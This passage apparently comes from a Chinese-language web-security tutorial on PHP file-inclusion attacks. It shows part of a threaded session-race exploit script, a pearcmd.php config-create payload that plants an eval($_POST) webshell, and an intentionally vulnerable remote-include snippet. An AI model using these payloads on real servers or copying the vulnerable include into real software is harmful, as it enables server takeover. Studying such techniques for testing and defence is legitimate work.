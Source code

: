 ```python
        session.get(url+'?file=/tmp/sess_'+sessionid) # 进行文件包含
        r = session.get(url+'shell.php') # 检查是否写入一句话木马
        if r.status_code == 200:
            print('OK')
            return ;

evnet=threading.Event() # 多线程

session = requests.session()
for i in range(5):
    threading.Thread(target = write,args = (session,)).start()
for i in range(5):
    threading.Thread(target = read,args = (session,)).start()

evnet.set()
```

### 2.1.3 pear文件包含

引入**P牛**师傅原话

::: tip
pecl是PHP中用于管理扩展而使用的命令行工具，而pear是pecl依赖的类库。在7.3及以前，pecl/pear是默认安装的；在7.4及以后，需要我们在编译PHP的时候指定--with-pear才会安装。
:::

原本pear/pcel是一个命令行工具，并不在Web目录下，即使存在一些安全隐患也无需担心。但我们遇到的场景比较特殊，是一个文件包含的场景，那么我们就可以包含到pear中的文件，进而利用其中的特性来搞事

先包含`pear`文件，利用php的命令行参数`config-create`写文件，所以payload：

payload里存在`&`,`+`等特殊字符，直接使用hackbar发包会被编码失去原意，导致执行失败，所以要使用bp发包

```php
?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=highlight_file(__FILE__);eval($_POST[1]);?>+/tmp/11
```

再包含目录文件`/tmp/11`，完成利用

## 2.2远程文件包含

在php.ini配置文件中打开**allow_url_include**时，可以将远程恶意文件包含在服务器端执行  

例如

漏洞代码

```php
<?php
$url=$_GET['url'];
include$url;
?>
```

测试文件
